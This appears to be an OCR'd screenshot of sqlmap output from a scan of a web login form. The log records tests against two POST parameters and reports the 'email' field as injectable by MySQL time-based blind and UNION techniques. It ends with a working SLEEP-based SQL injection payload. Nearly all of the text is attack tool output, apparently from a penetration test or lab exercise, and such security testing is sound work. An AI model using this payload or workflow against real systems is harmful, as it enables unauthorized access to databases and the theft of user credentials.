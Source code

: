 [12:34:32] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'                                                                                                   
[12:34:33] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[12:34:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:34:43] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:34:58] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:34:58] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:34:58] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:34:58] [INFO] target URL appears to have 4 columns in query
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[12:35:05] [INFO] (custom) POST parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[12:35:11] [INFO] testing if (custom) POST parameter '#2*' is dynamic
[12:35:11] [WARNING] (custom) POST parameter '#2*' does not appear to be dynamic
[12:35:11] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#2*' might not be injectable
[12:35:11] [INFO] testing for SQL injection on (custom) POST parameter '#2*'
[12:35:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:35:12] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:35:12] [INFO] testing 'Generic inline queries'
[12:35:12] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:35:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:35:12] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[12:35:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[12:35:13] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[12:35:13] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[12:35:13] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[12:35:14] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[12:35:14] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[12:35:14] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[12:35:15] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[12:35:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[12:35:25] [WARNING] (custom) POST parameter '#2*' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 173 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=
